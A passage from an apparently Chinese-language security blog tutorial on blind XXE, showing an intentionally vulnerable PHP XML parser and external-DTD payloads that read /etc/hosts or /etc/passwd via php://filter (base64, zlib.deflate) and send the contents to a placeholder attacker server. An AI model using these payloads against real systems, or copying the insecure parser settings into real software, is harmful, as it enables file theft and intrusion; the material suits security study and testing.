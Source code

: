 ![](/blog_img/xxe3.png)
# 无回显获取数据
当没有输出时，我们应该怎么获取数据呢?我们可以采取获取数据后，将数据发往我们自己服务器的方法来获取数据。  
我们仍旧采用上面的代码进行分析(注释了输出语句):
``` php
<head><meta charset=utf-8><title>xxe测试</title></head><body><form action='' method='post'>xml数据:<br><textarea type="text" name="data"></textarea><br><input type='submit' value='提交' name='sub'></form></body>

<?php
libxml_disable_entity_loader(false);
date_default_timezone_set("PRC");
if(!empty($_POST['sub'])){ $data= $_POST['data'];
$dom = new DOMDocument();
$dom->loadXML($data, LIBXML_NOENT | LIBXML_DTDLOAD); 
$answer = simplexml_import_dom($dom);
}
?>
```
我们可以采用以下的payload:
``` xml
<!DOCTYPE root[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xx.xx/file.dtd">
%dtd;
%send;
]>
```
file.dtd上的内容  
``` xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xx.xx/?p=%file;'>">
%payload;
```
具体原理不细讲，这样我们就可以在访问日志中接收到/etc/hosts的文件了。  
这里需要注意一个问题，/etc/hosts文件较小，所以可以直接利用get回显，但是如果是/etc/passwd这样比较大的文件，dtd声明中定义外部实体时，对url有长度限制，我们就需要利用zlib.deflate来帮助我们压缩，从而得以从get中获取文件内容.  
payload:
``` xml
<!DOCTYPE root[
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xx.xx/file.dtd">
%dtd;
%send;
]>
```
我们将内容复制下来保存到一个文件1.txt中，然后使用base64解码再加上zlib.inflate解压即可:
``` 
php://filter/read=convert.base64-decode/zlib.inflate/resource=1.txt
```
